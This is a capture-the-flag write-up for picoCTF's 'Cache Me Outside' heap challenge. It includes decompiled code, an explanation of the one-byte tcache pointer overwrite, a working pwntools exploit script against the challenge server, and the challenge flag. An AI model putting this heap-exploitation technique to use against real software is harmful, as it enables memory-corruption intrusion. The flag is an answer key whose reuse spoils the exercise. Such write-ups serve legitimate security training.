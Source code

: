 # Cache Me Outside

## Description

Author: madStacks

While being super relevant with my meme references, I wrote a program to see how much you understand heap allocations. nc mercury.picoctf.net 34499 heapedit Makefile libc.so.6

## Challenge

The program reads the flag into memory, then allocates it onto the heap 7 times.
Every allocation overwrites the previous pointer without freeing it, so the contents of these chunks are preserved.

The next allocation is for another string with a different pointer.

Both pointers are freed.

We can edit one byte at an address of our choosing.

A new chunk is allocated and the contents are printed, however, the contents are never overwritten.

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### Decompiled code

```c
undefined8 main(undefined8 argc, char **argv)
{
    undefined8 uVar1;
    int64_t in_FS_OFFSET;
    char **var_c0h;
    int64_t var_b4h;
    undefined var_a1h;
    int32_t var_a0h;
    int32_t var_9ch;
    void *var_98h;
    char *ptr;
    undefined8 stream;
    char *var_80h;
    char *s;
    char *var_70h;
    int64_t var_68h;
    int64_t var_60h;
    int64_t var_58h;
    char *s2;
    int64_t canary;
    
    canary = *(int64_t *)(in_FS_OFFSET + 0x28);
    sym.imp.setbuf(_reloc.stdout, 0);
    stream = sym.imp.fopen("flag.txt", 0x400b08);
    sym.imp.fgets(&s2, 0x40, stream);
    var_70h = (char *)0x2073692073696874;
    var_68h = 0x6d6f646e61722061;
    var_60h = 0x2e676e6972747320;
    var_58h._0_1_ = 0;
    var_98h = (void *)0x0;
    for (var_9ch = 0; var_9ch < 7; var_9ch = var_9ch + 1) {
        ptr = (char *)sym.imp.malloc(0x80);
        if (var_98h == (void *)0x0) {
            var_98h = ptr;
        }
        *(undefined8 *)ptr = 0x73746172676e6f43;
        *(undefined8 *)((int64_t)ptr + 8) = 0x662072756f592021;
        *(undefined8 *)((int64_t)ptr + 0x10) = 0x203a73692067616c;
        *(undefined *)((int64_t)ptr + 0x18) = 0;
        sym.imp.strcat(ptr, &s2, &s2);
    }
    var_80h = (char *)sym.imp.malloc(0x80);
    *(undefined8 *)var_80h = 0x5420217972726f53;
    *(undefined8 *)((int64_t)var_80h + 8) = 0x276e6f7720736968;
    *(undefined8 *)((int64_t)var_80h + 0x10) = 0x7920706c65682074;
    *(undefined4 *)((int64_t)var_80h + 0x18) = 0x203a756f;
    *(undefined *)((int64_t)var_80h + 0x1c) = 0;
    sym.imp.strcat(var_80h, &var_70h, &var_70h);
    sym.imp.free(ptr);
    sym.imp.free(var_80h);
    var_a0h = 0;
    var_a1h = 0;
    sym.imp.puts("You may edit one byte in the program.");
    sym.imp.printf("Address: ");
    sym.imp.__isoc99_scanf(0x400b48, &var_a0h);
    sym.imp.printf("Value: ");
    sym.imp.__isoc99_scanf(0x400b53, &var_a1h);
    *(undefined *)((int64_t)var_a0h + (int64_t)var_98h) = var_a1h;
    s = (char *)sym.imp.malloc(0x80);
    sym.imp.puts(s + 0x10);
    uVar1 = 0;
    if (canary != *(int64_t *)(in_FS_OFFSET + 0x28)) {
        uVar1 = sym.imp.__stack_chk_fail();
    }
    return uVar1;
}
```

## Solution

If we choose an address to overwrite that does not affect the rest of the program, we get the following output:

```
-> % nc mercury.picoctf.net 34499
You may edit one byte in the program.
Address: 0
Value: 0
t help you: this is a random string.

```

The string printed is the last part of the last chunk allocated.
This is because the chunk is freed, then reallocated, but the contents are never overwritten.

If we can change the chunk that is used for the next allocation, we can make it print the string containing the flag instead.

We want to overwrite a pointer in the heap page header, which points to the most recently freed item.
By changing the least significant byte, we can make this point at a chunk that contains the flag.

## Exploit

```py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./heapedit")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.27.so")

context.binary = exe


def conn():
    if args.LOCAL:
        p = process([ld.path, exe.path], env={"LD_PRELOAD": libc.path})

        if args.GDB:
            gdb.attach(p, 'b*0x00400a7c')

        return p
    else:
        return remote("mercury.picoctf.net", 34499)


def main():
    r = conn()

    offset = 0x12f41f1d0 - 0x12f41ddb8
    newbyte = b'\x00'

    r.recvuntil(': ')
    r.sendline('-' + str(offset))

    r.recvuntil(': ')
    r.sendline(newbyte)

    r.interactive()


if __name__ == "__main__":
    main()
```

## Flag

`picoCTF{ea0e7e8e8c7bf85caa6601f3dae7ce26}`

